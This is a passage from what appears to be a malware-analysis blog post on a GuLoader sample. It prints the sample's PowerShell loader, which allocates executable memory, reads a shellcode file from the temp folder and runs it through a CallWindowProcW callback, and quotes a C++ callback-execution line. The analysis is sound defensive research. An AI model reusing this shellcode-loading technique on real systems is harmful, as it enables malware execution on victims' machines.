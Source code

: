 - [NtAllocateVirtualMemory](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntallocatevirtualmemory)
- [CreateFileA](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea)
- [ReadFile](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-readfile)

When combined together, these functions read the contents of `Champag6.dat` and mapped them into memory at `$Ofayve3`. These contents included the hex string seen earlier, and my working hypothesis is that the file is some form of shellcode.

```powershell
$Ofayve3=0;
$Ofayve9=1048576;
$Ofayve8=[Ofayve1]::NtAllocateVirtualMemory(-1,[ref]$Ofayve3,0,[ref]$Ofayve9,12288,64)

$Ofayve2="$env:temp" + "\Champag6.dat"
$Ofayve4=[Ofayve1]::CreateFileA($Ofayve2,2147483648,1,0,3,128,0)
$Ofayve5=0;
[Ofayve1]::ReadFile($Ofayve4,$Ofayve3,26042,[ref]$Ofayve5,0)
[Ofayve1]::CallWindowProcW($Ofayve3, 0,0,0,0)
```

The final part of the script calls [`CallWindowProcW`](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-callwindowprocw), which was unusual for me to see. I decided to get a little wild and do a Google search for "CallWindowProc shellcode" and ended up running across an interesting article on [using function callbacks to run shellcode](https://osandamalith.com/2021/04/01/executing-shellcode-via-callbacks/). Reading down the article, I could see some code that looks very similar to our sample:

```cpp
CallWindowProc((WNDPROC)(char *)shellcode, (HWND)0, 0, 0, 0);
```

Sure enough, the GuLoader code above seems to match that callback article. 

## But is it GuLoader?

Honestly this is hard for me to tell. I largely trust the GuLoader tag in MalwareBazaar but it's always good to have extra proof. When I open up the suspected shellcode in Ghidra there is some definite XOR activity going on. 

![XOR in Ghidra](/assets/images/guloader-executing-shellcode-callbacks/xor.png)
